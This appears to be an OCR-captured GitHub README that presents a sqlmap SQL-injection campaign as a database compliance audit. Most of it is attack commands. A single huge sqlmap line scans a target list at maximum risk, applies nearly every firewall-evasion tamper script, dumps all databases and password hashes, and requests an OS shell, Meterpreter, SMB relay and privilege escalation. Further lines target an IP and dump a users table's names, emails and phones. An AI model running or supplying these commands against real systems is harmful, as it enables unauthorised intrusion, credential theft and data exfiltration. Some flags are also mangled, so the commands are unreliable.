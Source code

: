 This project verify that your DataBases are under compliant with the actual DevSecOps MSB

Let’s audit Our Application with https://sqlmap.org {1.4.6.2#dev} 



[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


1. Install sqlmap

       apt install sqlmap -y && cp -r /usr/share/sqlmap /usr/share/sqlmap_bck && rm -r /usr/share/sqlmap && git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git /usr/share/sqlmap && sqlmap --update && sqlmap --version
#       

## Generate IP addresses file of your applications (targets)

    cd /root && mkdir SA && cd SA && mkdir ad && nano ~/SA/ad/ad_ips

## Create the Pipeline CI/CD

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch screenfetch -y
    neofetch
    screenfetch
    sqlmap -f -b -o -m /root/SA/ad/ad_ips -t /root/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=1 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=MySQL --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --identify-waf --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,escapequotes,greatest,halfversionedmorekeywords,htmlencode,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,modsecurityversioned,modsecurityzeroversioned,multiplespaces,overlongutf8,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --msf-path /usr/bin --tmp-dir=/root/.sqlmap/history --beep --alert=x -v 6
#

    -u 'http://10.10.10.140:80/' --level=5 --risk=3 --privileges --current-user --hostname --random-agent --current-db --dump --columns --schema --roles --comments --passwords --users --tables --is-dba --count -b --dbs --mobile --flush-session --check-waf --beep --cleanup --fresh-queries --purge-output --identify-waf --threads=37

       
2. Start & Monitoring

       cd /root/SA/ad/ && chmod +x SA_sqli.sh && ./SA_sqli.sh
       
       tail -f /root/.sqlmap/output/sqlmap_scan
               
3. Analize/Purge the Injections Results of each host that you are looking for (CSV format)
   Include: Target URL; Place; Parameter;	Technique(s) and Note(s) at

       cd
       cd .sqlmap/output/

#
#
#
Additional commands

    -p username --url="http://yourtarget.com//?post=1" --data "username=admin&password=pass"

    -D dbname -T tablename -C id -C username -C password

#
Supported DBMSes are as follows: Firebird, H2, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase.
     
    --dbms=MySQL
    
    --no-cast 
    
    --no-escape 

    --charset 'ascii'

    --predict-output

    --skip-waf

    --eta

    --sqlmap-shell
    
    --sql-shell
    
    
    sqlmap.py -u website –dbs

    -D acuart –tables

    -D acuart -T users –columns

    -D acuart -T users -C name,email,phone -dump

    
    #
    #
    #
    $ curl --header 'Host: www.example.com' 'https://127.0.0.1/' -v -k
    
    :)
